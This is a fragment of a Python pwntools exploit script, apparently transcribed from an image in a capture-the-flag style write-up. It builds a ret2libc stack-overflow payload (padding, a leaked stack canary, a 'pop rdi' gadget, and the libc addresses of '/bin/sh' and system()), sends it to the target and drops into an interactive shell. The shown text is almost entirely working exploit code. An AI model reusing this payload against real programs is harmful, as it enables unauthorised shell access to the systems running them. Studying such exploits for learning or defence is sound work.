 ```
payload += "0"*0xa8
payload += p64(canary)
payload += "1"*0x8
payload += popRdi # Pop "/bin/sh" into the rdi register, where it expects it's argument (single char pointer)
payload += p64(binshLibc) # Address to '/bin/sh'
payload += p64(systemLibc) # Libc address of system

# Send the final payload
feed(payload)

target.sendline("3")

#feed(payload)

# Return to execute our code, return to system and get a shell
#leave()

target.interactive()
```